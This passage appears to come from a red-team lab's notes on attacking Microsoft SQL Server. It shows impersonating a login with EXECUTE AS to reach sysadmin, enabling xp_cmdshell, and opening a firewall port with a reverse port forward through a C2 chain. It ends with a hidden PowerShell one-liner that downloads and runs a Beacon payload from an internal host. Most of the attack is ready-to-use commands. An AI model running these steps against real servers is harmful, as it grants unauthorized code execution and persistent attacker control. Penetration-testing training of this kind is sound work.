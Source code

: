 Use `EXECUTE AS` to execute a query in the context of the target.

```
EXECUTE AS login = 'DEV\mssql_svc'; SELECT SYSTEM_USER;
DEV\mssql_svc

EXECUTE AS login = 'DEV\mssql_svc'; SELECT IS_SRVROLEMEMBER('sysadmin');
1
```

SQLRecon modules can also be run in "impersonation mode" by prefixing the module name with an `i` and specifying the principal to impersonate.

[[SQLRecon#Impersonate Accounts on an Instance#Run Modules]]


### Command Execution

PowerUpSQL: [[PowerUpSQL#Invoke-SQLOSCmd]]

To enumerate the current state of xp_cmdshell, use:
``` sql
SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';
```

To enable xp_cmdshell:
``` sql
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

SQLRecon also has a module for interacting with the xp_cmdshell configuration, which can also be combined with the impersonation module.

[[SQLRecon#Impersonate Accounts on an Instance#xp_cmdshell Interaction]]

With command execution, we can work towards executing a Beacon payload.  As with other servers in the lab, the SQL servers cannot talk directly to our team server in order to download a hosted payload.  Instead, we must setup a reverse port forward to tunnel that traffic through our C2 chain.

```
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```

```
rportfwd 8080 127.0.0.1 80
```

Next, host `smb_x64.ps1` at `/b` on the team server.  We know SMB will work because we can validate that port 445 is open on the target SQL server.

```
beacon> portscan 10.10.122.25 445
```

We can now download and execute the payload, for example:

```
powershell -w hidden -c "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"
```

